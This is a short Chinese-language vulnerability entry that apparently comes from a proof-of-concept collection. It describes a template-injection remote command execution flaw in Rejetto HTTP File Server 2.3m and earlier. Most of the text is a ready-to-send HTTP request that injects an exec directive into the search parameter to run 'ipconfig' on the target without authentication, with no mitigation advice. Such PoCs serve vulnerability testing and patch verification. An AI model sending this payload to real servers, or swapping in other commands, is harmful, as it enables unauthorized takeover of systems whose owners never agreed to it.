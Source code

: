 **漏洞介绍**

Rejetto HTTP File Server（Rejetto HFS）是Rejetto公司的一款 HTTP 文件服务器。

Rejetto HTTP File Server 2.3m及之前版本存在安全漏洞，该漏洞源于存在模板注入漏洞，允许远程未经身份验证的攻击者通过发送特制的HTTP请求在受影响的系统上执行任意命令。

**影响版本**

Rejetto HTTP File Server 2.3m及之前版本

**漏洞复现**

 **POC** 

```yaml
GET /?n=%0A&cmd=ipconfig&search=%25xxx%25url%25:%password%}{.exec|{.?cmd.}|timeout=15|out=abc.}{.?n.}{.?n.}RESULT:{.?n.}{.^abc.}===={.?n.} HTTP/1.1
Host: 172.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate


```

